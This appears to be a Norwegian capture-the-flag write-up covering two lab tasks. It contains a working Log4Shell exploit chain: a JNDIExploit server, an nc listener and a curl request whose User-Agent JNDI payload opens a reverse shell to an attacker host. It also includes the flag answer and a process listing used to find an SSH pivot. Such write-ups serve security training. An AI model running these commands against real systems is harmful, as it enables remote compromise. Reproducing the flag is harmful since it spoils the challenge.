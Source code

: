 
## 2.06_pwr-ws-caf5db

En rask nmap skann av subnettet avslører at serveren med Log4J-sårbarheten fortsatt er tilgjengelig:

```bash
nmap -sn 10.0.236.101/27
# Nmap scan report for 0e7e17e3605aa2385b923dbd549531e4_pwr-ws-caf5db.1.4gpt2qoq7daix109e09sese50.0e7e17e3605aa2385b923dbd549531e4_backend (10.0.236.102)
# Host is up (0.0076s latency).
```

Da jeg tidligere har utnyttet Log4J så har jeg hatt best erfaring med [dette](https://github.com/zzwlpx/JNDIExploit) Github repositoret. `JNDIExploit.jar`-fila er ikke tilgjengelig der lengre, men kan finnes [her](https://github.com/black9/Log4shell_JNDIExploit).

I angrepet vi observerte i pcap-fila var sårbarheten i User-Agent headeren. Utnyttelsen blir derfor slik:

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i corax &
nc -lvnp 4444 &
curl pwr-ws-caf5db -A '${jndi:ldap://corax:1389/Basic/ReverseShell/corax/4444}'
fg
```

Om alt gikk bra vil vi få et shell. Flagget ligger godt synlig i hjemmemappen.

```text
Kategori: 2. Oppdrag
Oppgave:  2.06_pwr-ws-caf5db
Svar:     74320a680cc9edc8d1f7a9a4a5c613dc
Poeng:    10

Det later til at skadevaren fortsatt kjører. Finn flere spor etter aktøren, og søk å skaffe aksess videre inn i infrastrukturen deres.

Brukeren har også privatnøkkel for ssh-tilgang til sin egen maskin. Jeg legger en kopi i oppdragsmappen din for lettere tilgang senere.

Ny fil: /home/login/2_oppdrag/sshkey_pwr-ws-caf5db
```

---

## 2.07_shady-aggregator

Om vi bruker `ps -aux` for å liste prosessene som kjører ser vi en interessant SSH forbindelse:
```text
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2236   432 ?        Ss   Jan09   0:00 /sbin/init
user          10  0.1  0.7 2542548 58716 ?       Sl   Jan09   2:08 /usr/bin/java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar /usr/share/java/api-server.jar
root          36  0.0  0.0  13348  3088 ?        Ss   Jan09   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root         206  0.0  0.0  14712  6440 ?        Ss   Jan09   0:00 sshd: user [priv]
user         212  0.0  0.0  15032  4356 ?        S    Jan09   0:00 sshd: user@pts/0
user         213  0.0  0.0 1116108 5320 pts/0    Ssl  Jan09   0:00 -fish
user         463  0.0  0.0   9100  2232 ?        Ss   Jan09   0:00 ssh: /home/user/.ssh/cp/archive@shady-aggregator_737236436b188023edcd4d77faeb428ba6e6f708 [mux]
user         566  0.0  0.6 2330464 52872 pts/0   Sl+  Jan09   1:54 java -jar .client
root       34448  0.2  0.1  14716  8940 ?        Ss   17:05   0:00 sshd: user [priv]
user       34454  0.0  0.0  15036  6048 ?        S    17:05   0:00 sshd: user@pts/1
user       34455  0.6  0.0 239508  7784 pts/1    Ssl  17:05   0:00 -fish
user       34549  0.0  0.0   6988  3104 pts/1    R+   17:05   0:00 ps -aux
```

